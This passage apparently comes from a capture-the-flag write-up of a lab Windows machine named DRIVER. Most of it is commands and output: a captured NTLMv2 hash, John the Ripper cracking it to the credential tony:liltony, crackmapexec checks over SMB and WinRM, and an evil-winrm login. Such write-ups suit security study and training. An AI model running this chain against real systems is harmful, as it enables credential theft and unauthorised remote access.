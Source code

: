 ```bash
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:8dd8a7a9df208b856e43569e67046129:0101000000000000801740d16878d8010296292c604c04a200000000010010004800530048006f005100560062007200030010004800530048006f00510056006200720002001000430068006d006700690045007500550004001000430068006d006700690045007500550007000800801740d16878d80106000400020000000800300030000000000000000000000000200000b7a47f950ec4212475ca3b4ad91df105524d2fbfd251e000d91a9be6ab6d061f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found ordinary.ico
[-] SMB2_TREE_CONNECT not found ordinary.ico
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.11.106,49414)
[*] Remaining connections []
```
Success! The victim established a conection and we obtained a hash `NTLM v2`, we can try to crack it:
```bash
❯ nvim Results/tony_hash
❯ cat Results/tony_hash
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/tony_hash
       │ Size: 556 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ tony::DRIVER:aaaaaaaaaaaaaaaa:8dd8a7a9df208b856e43569e67046129:01010000000
       │ 00000801740d16878d8010296292c604c04a200000000010010004800530048006f0051005
       │ 60062007200030010004800530048006f00510056006200720002001000430068006d00670
       │ 0690045007500550004001000430068006d006700690045007500550007000800801740d16
       │ 878d80106000400020000000800300030000000000000000000000000200000b7a47f950ec
       │ 4212475ca3b4ad91df105524d2fbfd251e000d91a9be6ab6d061f0a0010000000000000000
       │ 000000000000000000009001e0063006900660073002f00310030002e00310030002e00310
       │ 036002e003200000000000000000000000000
───────┴───────────────────────────────────────────────────────────────────────────
❯ john --wordlist=/usr/share/dict/rockyou.txt Results/tony_hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2022-06-05 01:17) 7.692g/s 252061p/s 252061c/s 252061C/s smile4..dumbo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
We managed to crack it and found the credential `tony:liltony`. We can test this credential with `crackmapexec`:
```bash
❯ crackmapexec smb 10.10.11.106 -u "tony" -p "liltony"
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony
```
The credentials are valid, finally, to test if we can connect to the machine:
```bash
❯ crackmapexec winrm 10.10.11.106 -u "tony" -p "liltony"
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\tony:liltony (Pwn3d!)
```
As we obtained a response `Pwn3d!`, we can connect to the victim machine with `evilwinrm`:
```bash
❯ evil-winrm -i 10.10.11.106 -u "tony" -p "liltony"

Evil-WinRM shell v3.3
```